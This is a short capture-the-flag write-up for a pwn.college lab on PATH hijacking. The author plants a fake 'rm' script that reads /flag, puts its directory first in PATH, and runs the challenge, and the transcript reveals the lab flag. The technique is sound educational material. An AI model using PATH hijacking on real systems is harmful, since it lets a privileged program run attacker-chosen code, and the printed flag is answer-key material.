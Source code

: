 # Hijacking commands
Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.
How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it.

## My solve
**Flag:** `pwn.college{Yzh_Sd1MWSJnaSk4v0de7FdRLKf.QX3cjM1wiN3AzNzEzW} `


```
mkdir -p /tmp/mybin
cat > /tmp/mybin/rm <<'SH'
/bin/cat /flag
exit 0
SH
chmod +x /tmp/mybin/rm
export PATH=/tmp/mybin:$PATH
/challenge/run
Trying to remove /flag...
Found 'rm' command at /tmp/mybin/rm. Executing!
pwn.college{Yzh_Sd1MWSJnaSk4v0de7FdRLKf.QX3cjM1wiN3AzNzEzW} 
```

## What I learned
I created the `rm` command such that it reads out the flag itself, then set PATH environment to where that rm command is

## References 
Reference material from pwn.college
